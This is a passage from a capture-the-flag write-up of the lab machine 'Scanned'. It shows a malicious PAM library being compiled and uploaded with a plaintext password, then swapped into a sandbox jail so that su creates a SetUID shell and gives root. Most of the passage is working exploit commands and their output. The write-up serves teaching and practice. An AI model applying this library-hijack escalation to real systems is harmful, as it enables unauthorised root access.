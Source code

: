 
    oxdf@hacky$ gcc -shared -fPIC -o setuidlib.so setuidlib.c 
    setuidlib.c:5:68: warning: ‘struct pam_response’ declared inside parameter list will not be visible outside of this definition or declaration
        5 | int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
          |                                                                    ^~~~~~~~~~~~
    setuidlib.c:5:41: warning: ‘struct pam_message’ declared inside parameter list will not be visible outside of this definition or declaration
        5 | int misc_conv(int num_msg, const struct pam_message **msgm, struct pam_response **response, void *appdata_ptr) {
          | 



I'll upload it to Scanned:



    oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' scp setuidlib.so clarence@10.10.11.141:/dev/shm



#### Success

I'll run again, updating `libpam_misc.so.0` with `setuidlib.so`:



    clarence@scanned:/var/www/malscanner/sandbox$ ./sandbox /dev/shm/runsu a & until [ -d jails/a ]; do sleep 1; done; cp -r /lib/x86_64-linux-gnu/* jails/a/usr/lib/; cp /dev/shm/setuidlib.so jails/a/usr/lib/libpam_misc.so.0; echo "copied libs"
    [1] 124401
    copied libs
    /proc/1/fd/3/../../../../../../../usr/bin/su: /lib/libpam_misc.so.0: no version information available (required by /proc/1/fd/3/../../../../../../../usr/bin/su)
    su: user root does not exist or the user entry does not contain all the required fields
    Exited
    Kill err: (3)



The results look good! It seems to have run. And `/tmp/0xdf` is now
SetUID:



    clarence@scanned:/var/www/malscanner/sandbox$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1234376 Sep  8 18:57 /tmp/0xdf



I'll run it (remembering `-p` to not drop privs) and get a root shell:



    clarence@scanned:/var/www/malscanner/sandbox$ /tmp/0xdf -p
    0xdf-5.1# id
    uid=1000(clarence) gid=1000(clarence) euid=0(root) groups=1000(clarence)



And `root.txt`:



    0xdf-5.1# cat /root/root.txt
    ba0f4c36************************







